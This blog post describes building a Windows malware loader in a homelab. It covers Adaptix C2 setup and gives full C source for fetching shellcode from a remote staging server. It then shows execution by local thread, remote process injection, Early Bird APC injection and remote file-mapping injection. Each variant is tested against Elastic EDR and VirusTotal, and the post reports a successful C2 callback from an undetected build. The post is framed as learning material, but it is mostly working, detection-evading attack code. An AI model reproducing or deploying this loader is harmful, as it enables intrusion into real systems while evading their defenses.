Crafting a Loader: My First Experience in Malware Development
2026-03-21
So after spending what felt like a reasonable amount of time on the defensive side of things as setting up homelabs, staring at Kibana dashboards, and learning what alerts look like, I figured it was time to see what those alerts are actually for. The logical next step was to write the thing that triggers them. Armed with my SOC homelab, a copy of Adaptix C2, a dangerously short reading list on Windows internals, and the kind of confidence that only comes from not fully understanding what you’re getting into, I set out to build a loader from scratch.
Introduction to AdaptixC2
The general consensus is that Adapatix C2 provides a similar experience to Cobalt Strike. In CRTO I learned the red team methodologies through Cobalt Strike thus here I’d use Adaptix for C2 server, listener and agent.
Initial Setup
The sections under the Getting Starting module of Adaptix’s documentation provide with guide to build server and client images from source. A gist of commands to follow is:
git clone https://github.com/Adaptix-Framework/AdaptixC2.git
cd AdaptixC2
sudo ./pre_install_linux_all.sh all
make server-ext
make client-fast
Next, one would need to generate SSL certificates for the teamserver. The command to aid is
openssl req -x509 -nodes -newkey rsa:2048 -keyout server.rsa.key -out server.rsa.crt -days 3650

The server and key names are to be fed into a YAML file which provides with configuration for the teamserver. The example configuration in the documentation is as follows:
Teamserver:
interface: "0.0.0.0"
port: 4321
endpoint: "/endpoint"
password: "pass"
only_password: true
operators:
operator1: "pass1"
operator2: "pass2"
cert: "server.rsa.crt"
key: "server.rsa.key"
extenders:
- "extenders/beacon_listener_http/config.yaml"
- "extenders/beacon_listener_smb/config.yaml"
- "extenders/beacon_listener_tcp/config.yaml"
- "extenders/beacon_listener_dns/config.yaml"
- "extenders/beacon_agent/config.yaml"
- "extenders/gopher_listener_tcp/config.yaml"
- "extenders/gopher_agent/config.yaml"
axscripts:
# - "Extension-Kit/extension-kit.axs"
access_token_live_hours: 12
refresh_token_live_hours: 168
HttpServer:
error:
status: 404
headers:
Content-Type: "text/html; charset=UTF-8"
Server: "AdaptixC2"
Adaptix-Version: "v1.2"
page: "404page.html"
http:
max_header_bytes: 8192
read_header_timeout_sec: 0
read_timeout_sec: 0
write_timeout_sec: 0
idle_timeout_sec: 0
request_timeout_sec: 300
request_timeout_message: "504 Gateway Timeout"
disable_keep_alives: false
enable_http2: true
tls:
min_version: "TLS1.2"
max_version: "TLS1.3"
prefer_server_cipher_suites: false
cipher_suites:
- "TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256"
- "TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384"
- "TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256"
- "TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384"
- "TLS_RSA_WITH_AES_128_GCM_SHA256"
- "TLS_RSA_WITH_AES_256_GCM_SHA384"
To read more about the parameters click here.
Finally, start the server using the following command:
./adaptixserver -profile profile.yaml

And connect through the client.


Listeners and Agents
To create a listener one’d need to click on the headphones icon. In the listener tray that appears in bottom-half of the dashboard, right-click and choose the create option. Configure the listener properties as required in the dialog window.

Finally, to create an agent for the listener, right-click on the listener and select Generate agent. Configure the options and save the agent to the disk.

Execution
I executed the beacon agent EXE file on a Windows 11 system with only default Windows Security controls for consumer workstations and no enterprise or similar solutions. It wasn’t detected by the running defender process and I recieved a callback.


But it was flagged by vendors as AdaptixC2 assocaited malware when I uploaded it to VirusTotal.

As evident from the image above, Elasic successfully detected the agent. To validate this, I transferred the agent to the SOC-homelab Windows 11 endpoint VM I had created in previous blog-post.


In the following sections, I’ll try to create a custom loader that bypasses Elastic’s detection and allows me to run the beacon agent.
Further Reading for Adaptix C2
I’d recommend going through the following sections to establish accquaintance with Adaptix
The Skeleton of a Loader
My aim was to create a simple loader that fetches the payload from a staging web server and executes. To build this, the two components to be developed were:
- Downloader - Section of code that fetches the payload from the remote staging server over HTTP. (Yes HTTP, I know, but this is just some exercise not an operation so I guess this would do).
- Executor - Section of code that executes the payload retrieved.
Downloader
I used the Wininet library to create the downloader named as the function FetchBlob in the following code. The general structure of the code-block is
- Take the staging server’s URL in
lpszUrl. - Fetch the data in chunks of
4096bytes (I should’ve created a macro for that atleast, but here we are) and save it in a temporary chunk. Consolidate the chunk to the larger buffer. - Return the address of the buffer and its size in
ppBlobandpsBlobSizerespectively.
// Retrieves payload from the staging web server
BOOL FetchBlob(
IN LPCWSTR lpszUrl,
OUT PBYTE* ppBlob,
OUT PSIZE_T psBlobSize
) {
BOOL bSTATE = TRUE;
HINTERNET hInternet = NULL;
HINTERNET hInternetFile = NULL;
PBYTE pBuffer = NULL;
SIZE_T sBufferSize = 0;
DWORD dwBytesRead = 0;
BYTE pTmpBuffer[4096];
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
if (hInternet == NULL) {
DEBUG_PRINT("InternetOpenW failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _CleanUp;
}
hInternetFile = InternetOpenUrlW(hInternet, lpszUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK, NULL);
if (hInternetFile == NULL) {
DEBUG_PRINT("InternetOpenUrlW failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _CleanUp;
}
while (TRUE) {
if (!InternetReadFile(hInternetFile, pTmpBuffer, sizeof(pTmpBuffer), &dwBytesRead)) {
DEBUG_PRINT("InternetReadFile failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _CleanUp;
}
if (!(dwBytesRead > 0)) {
break;
}
if (pBuffer == NULL)
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBytesRead);
else
pBuffer = (PBYTE)HeapReAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, pBuffer, sBufferSize + dwBytesRead);
if (pBuffer == NULL) {
DEBUG_PRINT("Failed to (re)allocate pBuffer. Last error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _CleanUp;
}
memcpy(pBuffer + sBufferSize, pTmpBuffer, dwBytesRead);
sBufferSize += dwBytesRead;
}
*ppBlob = pBuffer;
*psBlobSize = sBufferSize;
_CleanUp:
if (hInternetFile)
InternetCloseHandle(hInternetFile);
if (hInternet) {
InternetCloseHandle(hInternet);
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
}
RtlSecureZeroMemory(pTmpBuffer, 4096);
return bSTATE;
}
The DEBUG_PRINT macro helps me to strip the debug printf statements at compile time when I want to. It is defined as follows, when LOG_DEBUG_MSG is defined the DEBUG_PRINT statements are essentially printf calls specifying file and line number along with the message passed. When LOG_DEBUG_MSG is not defined, DEBUG_PRINT turns to be just a void statement.
#define LOG_DEBUG_MSG
#ifdef LOG_DEBUG_MSG
#define DEBUG_PRINT(fmt, ...) \
printf("[DEBUG] (%s:%d) " fmt "\n", __FILE__, __LINE__, ##__VA_ARGS__)
#else
#define DEBUG_PRINT(fmt, ...) ((void)0)
#endif // !LOG_DEBUG_MSG
The Executor
The age old VirtualAlloc -> VirtualProtect -> CreateThread is as simple as it is signatured. I used this flow to establish a control sample for future reference and it served as a basic executor to validate my downloader logic simultaneously. The parameters are the buffer address and size populated by previously mentined downloader logic.
void Run(
IN PBYTE pBlob,
IN SIZE_T sBlobSize
) {
BOOL bSTATE = TRUE;
PBYTE pExecBlob = NULL;
DWORD dwOldProtection = 0;
HANDLE hThread = NULL;
pExecBlob = VirtualAlloc(NULL, sBlobSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (pExecBlob == NULL) {
DEBUG_PRINT("VirtualAlloc failed with error: %lu\n", GetLastError());
}
memcpy(pExecBlob, pBlob, sBlobSize);
RtlSecureZeroMemory(pBlob, sBlobSize);
if (!VirtualProtect(pExecBlob, sBlobSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
DEBUG_PRINT("VirtualProtect failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
}
hThread = CreateThread(NULL, NULL, pExecBlob, NULL, NULL, NULL);
if (hThread == NULL) {
DEBUG_PRINT("CreateThread failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
}
WaitForSingleObject(hThread, INFINITE);
return bSTATE;
}
An attempt at execution
To validate the functionality I used msfvenom to create a payload to spawn a calculator calc.exe.
I created a dump function to display bytecodes fetched (visible in terminal in the background) from the remote staging server before executing it.

I labelled this loaders as NetUtil.exe and served through a python web server.
This version of loader was detected as soon as it was downloaded on the endpoint device with Elastic’s EDR agent (My previous blog post may help in configuring a SOC homelab with Elastic).

The corresponding alert on the Kibana dashboard was:

The Virustotal performance of this loader was more glorious than the Adaptix’s C2 agent executable itself as it score 20 compared to 12 detections of Adaptix’s binary.

Why inject in yourself when you can inject others?
While I did not hope to achieve much from this but this seemed to me as the next logical step and thus in a simple subsitution of target processes I replaced the target of payload injection from loader to a secondary process. The code logic was same as the rudimentory Run function described above with slight subsitutions to operate in context of target process.
| Run | RunRemote |
|---|---|
| VirtualAlloc | VirtualAllocEx |
| memcpy | WriteProcessMemory |
| VirtualProtect | VirtualProtectEx |
| CreateThread | CreateRemoteThread |
void RunRemote(
IN HANDLE hProcess,
IN PBYTE pBlob,
IN SIZE_T sBlobSize
) {
PVOID pExecAddress = NULL;
SIZE_T sNumberOfBytesWritten = NULL;
DWORD dwOldProtection = NULL;
pExecAddress = VirtualAllocEx(hProcess, NULL, sBlobSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (pExecAddress == NULL) {
DEBUG_PRINT("VirtualAllocEx failed with error: %lu\n", GetLastError());
return FALSE;
}
if (!WriteProcessMemory(hProcess, pExecAddress, pBlob, sBlobSize, &sNumberOfBytesWritten)) {
DEBUG_PRINT("WriteProcessMemory failed with error: %lu\n", GetLastError());
return FALSE;
}
if (!VirtualProtectEx(hProcess, pExecAddress, sBlobSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
DEBUG_PRINT("VirtualProtectEx failed with error: %lu\n", GetLastError());
return FALSE;
}
RtlSecureZeroMemory(pBlob, sBlobSize);
if (CreateRemoteThread(hProcess, NULL, NULL, pExecAddress, NULL, NULL, NULL) == NULL) {
DEBUG_PRINT("CreateRemoteThread failed with error: %lu\n", GetLastError());
return FALSE;
}
return TRUE;
}
Whilte the pBlob and the sBlobSize were the same as those in the Run function, the hProcess was handle to the target process which was derived by enumerating processes on the target system and opening handle to the one specified.
CreateToolhelp32Snapshotwas used to create a snapshot of all running processes.Process32FirstandProcess32Nextwere used to iterate through the snapshot to find the target process specified in parameterlpszProcessName.- Finally, a handle to the target process was opened and return through
phPRocess
BOOL GetRemoteProcessHandle(
IN LPWSTR lpszProcessName,
OUT PHANDLE phProcess
) {
BOOL bSTATE = TRUE;
HANDLE hSnapshot = NULL;
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapshot == INVALID_HANDLE_VALUE) {
DEBUG_PRINT("CreateToolhelp32Snapshot failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _CleanUp;
}
if (!Process32First(hSnapshot, &Proc)) {
DEBUG_PRINT("Process32First failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _CleanUp;
}
do {
if (Proc.szExeFile) {
if (_wcsicmp(Proc.szExeFile, lpszProcessName) == 0) {
wprintf(L"[i] Found process \"%s\" with PID: %d\n", lpszProcessName, Proc.th32ProcessID);
*phProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*phProcess == NULL) {
DEBUG_PRINT("OpenProcess failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _CleanUp;
}
break;
}
}
} while (Process32Next(hSnapshot, &Proc));
_CleanUp:
if (hSnapshot)
CloseHandle(hSnapshot);
return bSTATE;
}
Testing time
Running locally, it is evident from the image below that the loader successfully discovered target process and the execution of calc.exe shows that payload was injected into it and called.

Labelling and serving as NetUtil2, I downloaded it onto the monitored enpoint and it was detected just as its predecessor.

The VirusTotal detection score decremented by 1, still greater than the original executable let alone anywhere near defense evasion.

Early bird gets the worm
Now, my first target towards reduced detection was to replace execution through newly created thread to some other alternative. Here, I leveraged Early Bird APC Injection technique.
Early Bird? APC?
APC stands for asynchronous procedure call. As per Microsoft’s documentation
An asynchronous procedure call (APC) is a function that executes asynchronously in the context of a particular thread. When an APC is queued to a thread, the system issues a software interrupt. The next time the thread is scheduled, it will run the APC function.
Essentially, through APC injection one can replace the currently executing procedure to another function which may be our shellcode. Thus no new threads are created but the existing one is redirected.
Early Bird APC injection means that we divert the execution to the target function as soon as a process is launched. This can be achieved through different means, the one demonstrated below spawns a child process but attaches the parent loader process as it’s debugger and thus breakpoint is inserted at the main function of the child process. This gives time to push an APC call to replace the main function with shellcode and then the breakpoint is removed to resume execution.
As the name suggests CreateSuspendedProcess creates a debugged child process in suspended state for the executable specified by lpszProcessName and populates the parameters phProcess, phThread and pdwProcessID with handle to the child process, it’s main thread and the process ID respectively.
BOOL CreateSuspendedProcess(
IN LPCWSTR lpszProcessName,
OUT PHANDLE phProcess,
OUT PHANDLE phThread,
OUT PDWORD pdwProcessID
) {
BOOL bSTATE = TRUE;
WCHAR lpszTargetProcessPath[MAX_PATH * 2];
WCHAR WnDir[MAX_PATH];
STARTUPINFO Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
Si.cb = sizeof(STARTUPINFO);
if (!GetEnvironmentVariableW(L"WINDIR", WnDir, MAX_PATH)) {
DEBUG_PRINT("GetEnvironmentVariableW failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EoF;
}
swprintf_s(lpszTargetProcessPath, MAX_PATH * 2, L"%s\\System32\\%s", WnDir, lpszProcessName);
if (!CreateProcessW(NULL, lpszTargetProcessPath, NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &Si, &Pi)) {
DEBUG_PRINT("CreateProcessW failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EoF;
}
*phProcess = Pi.hProcess;
*phThread = Pi.hThread;
*pdwProcessID = Pi.dwProcessId;
// End of Function
_EoF:
if (*phProcess == NULL || *phThread == NULL)
bSTATE = FALSE;
return bSTATE;
}
Once the child process is created, to perform APC injection the following code segment is leveraged. While VirtualAllocEx, WriteProcessMemory and VirtualProtectEx are retained to transfer the shellcode to child process’s memory, CreateRemoteThread is now replaced by QueueUserAPC thus providing alternative method for execution.
BOOL ScheduleRun(
IN HANDLE hProcess,
IN HANDLE hThread,
IN PBYTE pBlob,
IN SIZE_T sBlobSize
) {
BOOL bSTATE = TRUE;
PVOID pAddress = NULL;
DWORD dwOldProtection = NULL;
SIZE_T sNumberOfBytesWritten = NULL;
pAddress = VirtualAllocEx(hProcess, NULL, sBlobSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (pAddress == NULL) {
DEBUG_PRINT("VirtualAllocEx failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EoF;
}
if (!WriteProcessMemory(hProcess, pAddress, pBlob, sBlobSize, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sBlobSize) {
DEBUG_PRINT("WriteProcessMemory failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EoF;
}
if (!VirtualProtectEx(hProcess, pAddress, sBlobSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
DEBUG_PRINT("VirtualProtectEx failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EoF;
}
if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
DEBUG_PRINT("QueueUserAPC failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EoF;
}
// End of Function
_EoF:
return bSTATE;
}
While QueueUserAPC queues the instructions to be executed they are executed only when debugger is removed. Thus the follow appears as follows:
FetchBlob(argv[1], &pBlob, &sBlobSize);
CreateSuspendedProcess(argv[2], &hProcess, &hThread, &dwProcessID);
ScheduleRun(hProcess, hThread, pBlob, sBlobSize);
DebugActiveProcessStop(dwProcessID);
Ah shit, here we go again
Labelling this version as NetUtil3 and downloading it on monitored endpoint got me nowhere but back to detection.

But uploading it to VirusTotal showed that the detection score dropped to 13, still one greater than the Adaptix’s binary but a siginficant improvemnt in the loader logic nonetheless.

Cartography
VirtualAlloc(Ex), VirtualProtect(Ex) and WriteProcessMemory are highly flagged as an indicator for malicious code and thus I needed alternative for the same. A differnt technique to transfer shellcode is through Remote File Mapping injection.
Remote File Mappings and Injection
Remote File Mappings allow to create shared memory regions accessible between different processes. This eliminates the need of VirtualAllocEx to allocate memory in target process. The injection logic can be interepreted as:
CreateFileMappingallows to create a mapping object i.e. allocate virtual memory backed by a pagefile. As there is no need to load a file, thus I specifyINVALID_HANDLE_VALUEforhFileparameter. While I need to provide specifyPAGE_EXECUTE_READWRITEforflProtectparameter it dictates this section objects maximum allowable permissions. The map views of the memory page would writable or executable, but separately in the two processes. Thus is does not appear to be a grave issue.MapViewOfFilewas used to create a local view of the mapping object and obtain local address for the memory with write access as specified byFILE_MAP_WRITE. Using this address, I wrote the shellcode into the memory.MapViewOfFile2was used to obtain remote address in target process’s view of the mapping object. This memory was designated to be executable and thus byte written by local process could be executed by remote process.
BOOL CopyBlob(
IN HANDLE hProcess,
IN PBYTE pBlob,
IN SIZE_T sBlobSize,
OUT PVOID* ppBlobCopyAddress
) {
BOOL bSTATE = TRUE;
HANDLE hFile = NULL;
PVOID pMapLocalAddress = NULL,
pMapRemoteAddress = NULL;
hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sBlobSize, NULL);
if (hFile == NULL) {
DEBUG_PRINT("CreateFileMapping failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EndOfFunction;
}
pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sBlobSize);
if (pMapLocalAddress == NULL) {
DEBUG_PRINT("MapViewOfFile failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EndOfFunction;
}
memcpy(pMapLocalAddress, pBlob, sBlobSize);
pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READ);
if (pMapRemoteAddress == NULL) {
DEBUG_PRINT("MapViewOfFile2 failed with error: %lu\n", GetLastError());
bSTATE = FALSE;
goto _EndOfFunction;
}
*ppBlobCopyAddress = pMapRemoteAddress;
_EndOfFunction:
if (hFile)
CloseHandle(hFile);
return bSTATE;
}
The parameter ppBlobCopyAddress contains the executable memory’s address in the context of the remote process. I pushed this address through Early Bird APC Injection technique discussed earlier into child process for execution.
Success? Sort of.
I renamed this version as NetUtil4.exe and downloaded on monitored endpoint. It wasn’t detected.

But I could not run it because being the idiot that I am, I shipped the debug build and executing NetUtil4.exe complained for missing VCRUNTIME140D.dll. Recompiling the release build with Multi-Threaded configuration instead of DLL depedent Multi-Threaded DLL Runtime Library flag and downloading it on monitored endpoint led to a detection.


At this moment, I said to myself - One problem at a time and installed the Microsoft Visual C++ Runtime library onto the endpoint (with a promise to explore the alternatives later).
Re-downloading the Mulit-Threaded DLL build lead to no detection.

I executed the loader with URL to payload and a process to spawn and hijack for execution on the monitored endpoint and it spawned calc.exe.

Next, I replaced the blob.bin from msfvenom payload to beacon shellcode for Adaptix.

Passing the loader with URL to beacon shellcode I recieved a callback onto the C2 server from the monitored endpoint. I had to add parameter as InternetOpenUrlW cached the URL for blob.bin with msfvenom calc.exe payload, I re-configured that later as explained in following section.


The VirusTotal score for this version of loader was 6 i.e. half of the original Adaptix C2 beacon executable and almost 1/4th of the original rudimetory loader.
Furthermore, as per VirusTotal Elastic did detect the loader.

The PDB path contained the original binary name as in the project. The symbols and IAT table would’ve been another give away for the loader. I’d look at these indicators and more some other day.
The Cache Issue
While appending parameter allowed to bypass the cached version of blob.bin, a permanent solution would be to include the no-cache specific flags in the InternetOpenUrlW’s dwFlags parameter.
hInternetFile = InternetOpenUrlW(
hInternet,
lpszUrl,
NULL,
NULL,
INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_RELOAD | INTERNET_FLAG_NO_CACHE_WRITE | INTERNET_FLAG_PRAGMA_NOCACHE,
NULL
);